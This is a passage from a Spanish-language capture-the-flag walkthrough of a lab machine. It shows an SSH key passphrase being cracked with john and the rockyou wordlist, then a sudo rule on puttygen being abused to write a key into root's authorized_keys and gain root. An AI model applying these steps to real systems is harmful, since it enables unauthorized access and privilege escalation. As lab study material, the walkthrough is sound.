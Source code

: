 ```
{"success":true,"data":{"output":[]}}
```

Intentamos acceder pero nos pide una contraseña

```
ssh -i id_rsa  curiosito@172.17.0.2                  
Enter passphrase for key 'id_rsa': 
```

Por lo que procedemos a descifrar el hash con la herramienta *john*
`ssh2john id_rsa > hash`

```
john hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 2 for all loaded hashes
Cost 2 (iteration count) is 16 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
honda1           (id_rsa)     
1g 0:00:03:40 DONE (2024-10-30 19:49) 0.004543g/s 16.13p/s 16.13c/s 16.13C/s indiana..01234
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

La contraseña es honda1

-------------------------------------------------------------------------------------------------------
Escalada de privilegios
-------------------------------------------------------------------------------------------------------

Una vez dentro ejecutamos el comando *sudo -l* y nos indica que podemos ejecutar /usr/bin/puttygen como root

![Captura de pantalla 2024-10-30 212906](https://github.com/user-attachments/assets/3e68e31a-5ace-430f-b783-cb7f4b8190e9)

Crearemos un par de claves SSH en formato OpenSSH en /root/.ssh/

```
curiosito@a20e56878e31:/tmp$ puttygen -t rsa -o id_rsa -O private-openssh
++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++
+++++++++++++++
Enter passphrase to save key: 
Re-enter passphrase to verify: 
curiosito@a20e56878e31:/tmp$ sudo -u root /usr/bin/puttygen id_rsa -o /root/.ssh/authorized_keys -O public-openssh
curiosito@a20e56878e31:/tmp$ 
```

Aprovechamos el privilegio y nos convertimos en root

![Captura de pantalla 2024-10-30 213800](https://github.com/user-attachments/assets/4b564d1c-1f26-4f42-8132-aafd6e09e8cc)

Somos usuario root!! 🥳
Maquina completada ✅
